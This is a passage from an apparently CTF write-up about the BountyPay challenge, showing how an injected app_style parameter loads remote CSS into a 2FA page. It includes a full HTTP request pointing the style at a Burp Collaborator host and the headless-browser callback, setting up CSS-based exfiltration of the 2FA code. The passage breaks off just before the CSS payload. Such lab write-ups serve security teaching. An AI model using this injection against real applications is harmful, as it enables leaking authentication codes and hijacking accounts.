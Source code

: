 The idea here, while not really realist, is that the CSS file that is sent, is then included in the page that the 2FA app is using to generate the 2FA code. If this is true, this means that we will probably need to use a CSS injection attack to leak the 2FA code. We can confirm this by sending the request with an `app_style` that point to a server in our control. For this, I used [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator):

```HTTP
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Content-Length: 75
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4079.0 Safari/537.36 autochrome/purple
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9

app_style=https%3A%2F%2F0stbry4if5vk4bspeq59bh6zoqugi5.burpcollaborator.net
```

The request was received from IP address 3.21.98.146, the same IP used by all the applications.

```HTTP
GET / HTTP/1.1
Host: 0stbry4if5vk4bspeq59bh6zoqugi5.burpcollaborator.net
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36
Accept: text/css,*/*;q=0.1
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: style
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US
```

The User-Agent tells us that the browser used is [HeadlessChrome](https://developers.google.com/web/updates/2017/04/headless-chrome) which is common in CTF. At this point, I had some idea on how to proceed since I knew you could [exfiltrate data using CSS](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d) but there was something I was missing.

The general CSS injection data exfiltration method is to use CSS like:
